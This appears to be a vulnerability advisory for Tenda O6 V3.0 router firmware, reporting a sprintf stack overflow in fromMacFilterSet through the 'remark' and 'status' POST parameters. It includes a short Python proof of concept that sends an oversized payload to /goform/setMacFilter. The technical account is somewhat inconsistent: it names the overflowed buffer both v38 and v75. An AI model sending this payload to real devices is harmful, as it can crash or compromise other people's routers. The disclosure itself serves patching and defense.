

## Overview
- Firmware download website: [https://www.tenda.com.cn/download/detail-3861.html](https://www.tenda.com.cn/download/detail-3861.html)
## Affected version
  O6 V3.0 V1.0.0.7(2054)
## Vulnerability details
The  O6 V3.0 V1.0.0.7(2054) firmware has a stack overflow vulnerability in the `fromMacFilterSet` function. Specifically, the variables `v69` and `v70` are assigned the values of the `status` and `remark` parameters from a POST request. Since these parameters are user-controlled, their values can be manipulated to exceed the allocated size of the `v38` array. This is due to the use of the `sprintf` function, which does not perform bounds checking on the input. As a result, a buffer overflow occurs if the combined length of `status` and `remark` surpasses the storage capacity of `v75`, leading to a potential security exploit.

![[Pasted image 20240805165019.png]]


![[Pasted image 20240805165134.png]]

## POC
```python
import requests
ip = "192.168.109.145"
url = "http://" + ip + "/goform/setMacFilter"
payload = b"ab"*3000

data = {"mode": "3", "remark": payload}
response = requests.post(url, data=data)

```
![[Pasted image 20240805163853.png]]
